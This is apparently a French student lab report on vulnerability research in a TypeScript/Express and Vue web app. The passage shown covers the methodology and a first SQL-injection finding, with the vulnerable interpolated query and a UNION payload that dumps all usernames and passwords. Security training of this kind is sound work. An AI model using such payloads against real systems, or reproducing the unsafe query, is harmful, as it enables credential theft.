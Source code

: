 # TP - Rapport de Recherche de Vulnérabilités et Remédiations

## 1. Informations Générales

- **Nom / Binôme : Pierre LE POTTIER & Olivier FALAHI**
- **Date: 6 juin 2025**

---

## 2. Méthodologie

- **Analyse statique :**
    - Lecture rapide du code backend (TypeScript) et frontend (Vue).
    - Repérage des routes critiques et de la configuration Express.
    - Inspection de la gestion des sessions, des accès, des requêtes SQL et des composants Vue (v-html, etc.).
- **Tests dynamiques :**
    - Lancement local de l’application (npm run setup puis npm run dev).
    - Utilisation de Postman pour s’authentifier (POST /api/auth/login) et rejouer les requêtes.
    - Modifications d’URL et de paramètres pour vérifier les contrôles d’accès et tenter des injections.
    - Observation des cookies et des en‑têtes via les outils de développement du navigateur.

---

## 3. Vulnérabilités Identifiées

### 3.1. Injection SQL

- **Localisation** : `backend/src/controllers/articles.ts` dans la fonction `get` :

```ts
const articleId = req.params.id;
const userId = req.session.user!.id;
const article = await db.get(`SELECT * FROM articles WHERE id='${articleId}' AND authorId=${userId}`);
```

- **Preuve de concept :**

1. Se connecter via Postman :
   ```http
   POST http://localhost:3000/api/auth/login
   { "username": "bob", "password": "123456" }
   ```
2. Envoyer ensuite :

```http
   GET http://localhost:3000/api/articles/0' UNION ALL SELECT group_concat(username || ':' || password, ' | '), NULL, NULL, NULL FROM users --
   ```
